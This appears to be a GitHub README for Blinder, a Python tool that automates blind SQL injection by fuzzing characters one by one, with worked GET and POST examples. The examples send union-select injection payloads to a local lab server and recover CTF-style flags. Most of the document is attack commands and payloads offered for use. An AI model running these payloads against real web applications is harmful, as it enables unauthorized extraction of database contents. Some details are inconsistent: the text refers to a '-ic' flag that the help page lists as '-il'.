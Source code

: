 # Blinder

Have you found a blind SQL injection? Great! Now you need to export it, but are you too lazy to sort through the values? Most likely, Blinder will help you!

Blinder is a tool that iterates through the values by letter. FUZZ is used to indicate the location of the search.

 ```
                       [HELP PAGE]
Usage: python3 blinder.py -u [URL] -v [GET/URL] -p [PARAMETERS]

Flags: 

[-h] [--help]: help page.
[--url] [-u]: url to target.
[-v] [--verbs]: HTTP verb (GET, POST, PUT and etc...).
[-p] [--parameters]: parameters for the target.
[-sl] [--show_length]: show response length.
[-il] [--incorrect_length]: size of incorrect length (for the filtration).
[-ec] [--exclude_characters]: Exclude characters from the fuzzing list. Specify sequentially in a line
    By default: [',&,%]
[-hg] [--hide-greeting]: Hide greeting.
[-ta] [--to-ascii]: Convert characters to ascii code.
[-ap] [--add-percent]: Add a percent sign to the end of FUZZ.
    In this mode, other characters can be added to the end of the line. These signs may be incorrect, due to the percentage.
[-tl] [--to-lower]: Convert letters to lowercase
[--hack]: Specify the URL of the target after the --hack flag, and it will be hacked.
```

## GET request

Let's specify the URL through the flag `[-u]`, and the verb through `[-v]`. Our request will look like this: . To make it work fine, add a percentage to the end of the line using the `[-ap]` flag. We want to see the length of the request. Let's add the `[-sl]` flag.

```bash
./blinder.py -u "http://192.168.0.100:7777/index.php?id=' union select id,name from users where name like 'FUZZ' -- -", -v GET  
-sl -ap
```

The end of result will be as follows:

![Pasted image 20211114160122](https://user-images.githubusercontent.com/70373439/141677868-562982a6-5753-4569-8980-5ee46ee73ea2.png)


We realized that the length `117` can be specified as incorrect. The letters will be converted to lowercase using the `[-tl]` flag, because we found upper and lower case letters. Specify the first letter `m`. In order for Blinder to fuzz recursively, we need to specify the wrong length 117 through `[-ic]` and remove the `[-sl]` flag.

```bash
/blinder.py -u "http://192.168.0.100:7777/index.php?id=' union select id,name from users where name like 'mFUZZ' -- -", -v GET -ap -il 117 -tl
```

![Pasted image 20211114160854](https://user-images.githubusercontent.com/70373439/141677834-24af56d5-65c2-4d32-a04f-83069ce572b1.png)


Let's connect the letter `m` and the result of Blinder:

`my_first_flag`

## POST request

In a post request, parameters are not passed through ?. There is a `[-p]` flag in Blinder for this request. We will specify the parameters using the `[-p]` flag. The rest of the flags, as in the get request.

```sql
./blinder.py -u "http://192.168.0.100:7777/index_post.php" -v POST -p "id=100' union select id,name from users where name like 'FUZZ' -- -" -sl -ap
```

The end of result will be as follows:

![Pasted image 20211114162703](https://user-images.githubusercontent.com/70373439/141677783-be290444-436c-4a00-a700-23bcaa74499b.png)

We realized that the length `184` can be specified as incorrect. The letters will be converted to lowercase using the `[-tl]` flag, because we found upper and lower case letters. Specify the first letter `f`. In order for Blinder to fuzz recursively, we need to specify the wrong length 184 through `[-ic]` and remove the `[-sl]` flag.

```bash
./blinder.py -u "http://192.168.0.100:7777/index_post.php" -v POST -p "id=100' union select id,name from users where name like 'fFUZZ' -- -" -il 184 -ap -tl
```


![Pasted image 20211114163021](https://user-images.githubusercontent.com/70373439/141677881-417a7dd1-4475-4352-9d9c-9705652aa96d.png)


Let's connect the letter `f` and the result of Blinder:

`flag`
